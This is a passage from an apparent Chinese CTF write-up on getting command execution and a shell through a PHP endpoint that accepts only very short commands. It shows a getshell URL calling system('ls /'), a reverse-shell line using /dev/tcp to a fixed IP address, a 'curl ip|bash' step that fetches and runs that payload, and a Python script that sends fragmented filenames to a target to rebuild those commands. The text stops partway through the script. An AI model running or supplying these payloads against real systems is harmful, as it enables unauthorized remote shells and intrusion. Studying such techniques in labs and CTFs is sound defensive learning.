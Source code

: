 ![](https://csdnimg.cn/release/blogv2/dist/pc/img/newCodeMoreBlack.png)



![image-20240907083428462](https://img-blog.csdnimg.cn/img_convert/adc156ff3e99f7b8bb5c0293cac1307f.png)

访问/sandbox/85323d93cc57664e7b283ecce923a707/1.php?1=system('ls /');getshell



![image-20240907083658945](https://img-blog.csdnimg.cn/img_convert/d3658b80632baca317652a3281327885.png)

结尾再放一下其他的payload：

空格需要转义

```prism
>\ \\

```

构造空格就用去了五个字符，反弹shell语句里面有两个空格，而相同的文件名只能有一个，因此这里不能直接执行bash反弹shell 那么通过将反弹语句放在vps上，然后通过如下方式来执行：

```prism
curl ip地址|bash

```

我们先在自己的vps新建一个文件，内容为

```prism
bash -i >& /dev/tcp/124.71.147.99/1717 0>&1

```

因为ls -t>_的长度也大于5，所以要要把ls -t>y写入文件

ls命令排序的规则是空格和符号最前，数字其次，字母最后

参考以下脚本写法：

```prism
#encoding:utf-8
import requests
baseurl = "http://120.79.33.253:9003/?cmd="

s = requests.session()

# 将ls -t 写入文件_
list=[
    ">ls\\",
    "ls>_",
    ">\ \\",
    ">-t\\",
    ">\>y",
    "ls>>_"
]
# curl 120.79.33.253|bash
list2=[
    ">bash",
    ">\|\\",
    ">53\\",
    ">2\\",
    ">3.\\",
    ">3\\",
    ">9.\\",
    ">7\\",
    ">0.\\",
    ">12\\",
    ">\ \\",
    ">rl\\",
```